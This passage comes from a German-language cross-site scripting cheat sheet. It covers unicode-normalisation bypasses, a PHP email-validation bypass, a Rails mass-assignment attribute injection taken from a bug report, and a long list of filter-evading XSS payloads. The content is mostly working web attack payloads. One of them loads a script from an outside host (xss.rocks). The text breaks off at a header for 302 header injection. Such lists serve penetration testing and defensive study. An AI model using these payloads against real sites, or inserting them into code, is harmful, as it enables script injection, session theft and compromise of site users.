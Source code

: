 Sie könnten überprüfen, ob die **reflektierten Werte** auf dem Server (oder auf der Client-Seite) **unicode-normalisiert** werden und diese Funktionalität ausnutzen, um Schutzmaßnahmen zu umgehen. [**Hier ein Beispiel finden**](../unicode-injection/#xss-cross-site-scripting).

### PHP FILTER\_VALIDATE\_EMAIL-Flag-Umgehung
```javascript
"><svg/onload=confirm(1)>"@x.y
```
### Ruby-On-Rails bypass

Aufgrund der **RoR-Massenzuweisung** werden Zitate in das HTML eingefügt und dann wird die Zitatbeschränkung umgangen, sodass zusätzliche Felder (onfocus) innerhalb des Tags hinzugefügt werden können.\
Formularbeispiel ([aus diesem Bericht](https://hackerone.com/reports/709336)), wenn Sie die Payload senden:
```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```
Das Paar "Key","Value" wird wie folgt zurückgegeben:
```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```
Dann wird das onfocus-Attribut eingefügt und XSS tritt auf.

### Besondere Kombinationen
```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```
### XSS mit Header-Injection in einer 302-Antwort

